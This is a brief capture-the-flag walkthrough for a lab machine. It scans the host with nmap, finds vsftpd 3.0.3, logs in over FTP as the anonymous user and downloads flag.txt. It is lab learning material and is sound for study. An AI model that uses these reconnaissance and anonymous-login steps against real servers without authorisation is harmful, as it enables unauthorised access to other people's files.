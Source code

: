 # Ftp (unix)

## Scan

```bash
nmap -sV 10.129.52.11

# PORT   STATE SERVICE VERSION
# 21/tcp open  ftp     vsftpd 3.0.3
# Service Info: OS: Unix
```

21/tcp is open, try to exploit ftp.

## Exploit

```bash
ftp 10.129.52.11

# Connected to 10.129.52.11.
# 220 (vsFTPd 3.0.3)
# Name (10.129.52.11:wcyat):
```

Try common misconfiguration of ftp servers (the anonymous user).

```bash
Name (10.129.52.11:wcyat): anonymous
Password: anonymous

230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

Successfully logged in. We can get the files.

```bash
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> get flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for flag.txt (32 bytes).
226 Transfer complete.
32 bytes received in 0.000138 seconds (226 kbytes/s)
ftp>
```
